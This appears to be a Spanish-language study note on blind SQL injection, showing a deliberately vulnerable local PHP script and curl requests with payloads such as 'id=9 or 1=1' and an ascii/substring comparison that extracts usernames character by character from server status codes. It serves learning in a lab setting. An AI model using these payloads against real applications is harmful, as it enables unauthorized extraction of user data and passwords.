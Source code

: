 # Uso de Curl para Inyecciones SQL a Ciegas

## Introducción

Este documento describe cómo utilizar `curl` para realizar [[SQLi]] a ciegas, basándonos en los códigos de estado HTTP devueltos por el servidor. En un entorno real, este tipo de pruebas se llevarían a cabo sobre aplicaciones web vulnerables que no muestran directamente los resultados de las consultas [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Documento Hacker/OWASP TOP 10/Bases de datos db/SQL/SQL|SQL]], pero cuyos códigos de respuesta pueden revelar información útil.

El entorno de pruebas está basado en un servidor local con un script PHP vulnerable llamado `searchUsers.php`. Su funcionamiento es el siguiente:

1. **Conexión a la base de datos**: Se conecta a un servidor MySQL con las credenciales predefinidas.
2. **Recepción de parámetros**: Obtiene el valor de `id` a través de una solicitud GET.
3. **Falta de validación adecuada**: Usa `mysqli_real_escape_string` para sanitizar la entrada, pero **omite las comillas en la consulta SQL**, lo que permite inyecciones sin necesidad de cerrar la cadena con `'`.
4. **Consulta SQL vulnerable**: Ejecuta la consulta `SELECT username FROM users WHERE id = $id`, lo que permite inyectar condiciones SQL adicionales.
5. **Código de respuesta basado en los resultados**:
   - Si se encuentra un usuario con el `id` especificado, devuelve `HTTP/1.1 200 OK`.
   - Si no se encuentra un usuario, devuelve `HTTP/1.1 404 Not Found`.

Este comportamiento nos permite inferir información sobre la base de datos basándonos en los códigos de estado obtenidos tras enviar distintas consultas.

---

Para recoger información con **Curl**, podemos usar `-G --data-urlencode`, lo que nos permite realizar peticiones GET de manera más cómoda y organizada. En este caso, queremos emplearlo para realizar una inyección SQL a ciegas y observar los códigos de estado HTTP en las respuestas.

## Envío de Peticiones con Curl

El siguiente comando nos permite hacer una petición con un parámetro `id`:

```bash
curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=1"
```

Podemos modificar el valor de `id=N` para obtener diferentes respuestas y analizar el comportamiento de la aplicación.

Por ejemplo, si enviamos una consulta con una condición siempre verdadera:

```bash
curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=9 or 1=1"
```

Obtendremos un *código de estado 200*, porque `1=1` es una condición siempre verdadera y la consulta devuelve una respuesta válida, incluso si el identificador `id=9` no existe.

### Ejemplo de Respuestas del Servidor

#### Petición con un ID válido:
```bash
❯ curl -s -I -X GET 'http://localhost/searchUsers.php?id=1'
```
**Respuesta:**
```
HTTP/1.1 200 OK
Date: Sat, 29 Mar 2025 19:06:14 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

#### Petición con un ID inexistente:
```bash
❯ curl -s -I -X GET 'http://localhost/searchUsers.php?id=5'
```
**Respuesta:**
```
HTTP/1.1 404 Not Found
Date: Sat, 29 Mar 2025 19:06:19 GMT
Server: Apache/2.4.62 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

## Inyección SQL Basada en Comparación ASCII

Podemos utilizar funciones como `ascii()` y `substring()` para extraer información carácter por carácter. Por ejemplo, si queremos verificar si el primer carácter del nombre de usuario (`username`) es 'a' (`97` en ASCII), enviamos:

```bash
curl -s -I -X GET 'http://localhost/searchUsers.php' -G --data-urlencode 'id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=97)'
```

Si la respuesta es `200 OK`, significa que la condición es verdadera, lo que nos indica que el `username` en la posición `1,1` es 'a'.

## Automatización con Python

Este método nos permite desarrollar un **script en [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Documento Hacker/OWASP TOP 10/Bases de datos db/SQL/Python|Python]]** que realice múltiples peticiones, probando diferentes valores y analizando las respuestas. De esta manera, podemos extraer datos como nombres de usuario o contraseñas de la base de datos basándonos en los códigos de respuesta HTTP.

---

Este procedimiento es clave para realizar una extracción eficiente en ataques **SQLi a ciegas**, permitiéndonos descubrir información sin ver directamente el resultado de las consultas. 

